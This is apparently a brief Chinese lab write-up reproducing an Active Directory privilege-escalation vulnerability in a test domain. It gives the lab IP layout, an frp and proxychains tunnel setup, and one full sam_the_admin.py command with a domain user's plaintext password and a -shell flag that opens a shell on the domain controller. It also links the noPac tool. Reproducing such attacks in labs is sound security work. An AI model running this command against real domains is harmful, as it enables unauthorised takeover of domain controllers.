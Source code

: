 漏洞复现十分简单，只需要域普通成员密码就可以了。

域控ip 10.0.0.3<br />域普通成员双网卡 10.0.0.123、192.168.201.2<br />攻击机 kali，通过frp做代理，走隧道


sudo proxychains python3 sam_the_admin.py "aufeng/af:A-*963." -dc-ip 10.0.0.3 -shell<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639362011792-c27b410a-0f15-489e-937d-26352cbdacd3.png#clientId=u8af29622-5723-4&from=paste&height=491&id=u60c2e5c7&originHeight=664&originWidth=750&originalType=binary&ratio=1&size=190747&status=done&style=none&taskId=u9004ede2-66dc-4d2f-85d6-5e6d0067941&width=555)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1639362104819-3bcbad19-7b91-4d68-9035-cf76cf5b9cc0.png#clientId=u8af29622-5723-4&from=paste&height=329&id=u0b279d97&originHeight=425&originWidth=684&originalType=binary&ratio=1&size=72058&status=done&style=none&taskId=u8ed06a8a-803b-457a-9682-c83dc71bd72&width=530)

[https://github.com/cube0x0/noPac](https://github.com/cube0x0/noPac)<br />这个工具需要编译出来，但是也比较好理解原理，是通过票据传递
